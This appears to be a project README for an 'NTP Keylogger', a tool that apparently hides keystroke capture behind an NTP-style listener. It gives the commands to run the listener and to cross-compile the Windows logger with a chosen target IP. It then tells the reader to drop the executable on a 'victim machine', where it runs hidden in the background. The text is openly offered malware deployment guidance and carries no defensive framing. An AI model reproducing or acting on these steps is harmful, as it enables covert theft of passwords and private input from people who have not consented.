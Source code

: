 # NTP Keylogger   
## Listener
```
sudo python3 ntpserver.py
```

## Victim
Change the IP to your desired target server IP adress in jlogger.c
```
x86_64-w64-mingw32-gcc jlogger.c -o jlogger.exe -lwsock32 -w
```
Then throw the exe on the victim machine and just double click on it(Executable will work on background, so you cannot see anything in the screen)

This is how exe works:


![image](https://user-images.githubusercontent.com/45479002/209933030-92b10432-1884-40a9-9e4d-70584b4d3d91.png)

![jlogger](https://user-images.githubusercontent.com/45479002/209933048-ab41d906-ce19-4ecc-b0ce-1a270578874b.png)
